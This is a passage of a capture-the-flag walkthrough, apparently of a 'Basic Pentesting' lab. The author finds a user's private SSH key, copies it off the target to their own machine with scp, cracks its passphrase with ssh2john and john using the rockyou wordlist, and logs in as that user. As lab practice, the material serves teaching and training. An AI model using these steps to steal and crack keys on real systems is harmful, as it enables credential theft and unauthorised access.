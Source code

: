 ```bash
jan@basic2:/home/kay/.ssh$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
jan@basic2:/home/kay/.ssh$ 
```

# 8. Transfering rsa key to our System using ```Scp``` 
```sudo apt install openssh-client```
```
$ sudo service ssh start   
```
### In Kay ,Let transfer it.
```bash
jan@basic2:/home/kay/.ssh$ scp id_rsa death@10.17.120.99:/home/death/Lab-CTF/Basic-pentesting/
Could not create directory '/home/jan/.ssh'.
The authenticity of host '10.17.120.99 (10.17.120.99)' can't be established.
ECDSA key fingerprint is SHA256:/buBatPVxdzFYyMDbKFqcBZbNSdBI/cZQ7WxNYDuVLE.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/home/jan/.ssh/known_hosts).
death@10.17.120.99's password: 
id_rsa                                                                                                                                                                                                      100% 3326     3.3KB/s   00:00    
jan@basic2:/home/kay/.ssh$ 
```
# 9. Let Crack using john
```sudo apt install john -y```
### Change it to john readable formate
```bash
$ ssh2john id_rsa > rsa
```
### Now brute force it
```bash
$ john rsa -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2024-04-04 23:08) 12.50g/s 1035Kp/s 1035Kc/s 1035KC/s bird..aries13
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
### I got the password ```beeswax``` 
### let change permision of id_rsa to use
```bash
$ chmod 600 id_rsa
```
# 10. Gaining access to kay
```bash
$ ssh kay@10.10.50.222 -i id_rsa 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)
```
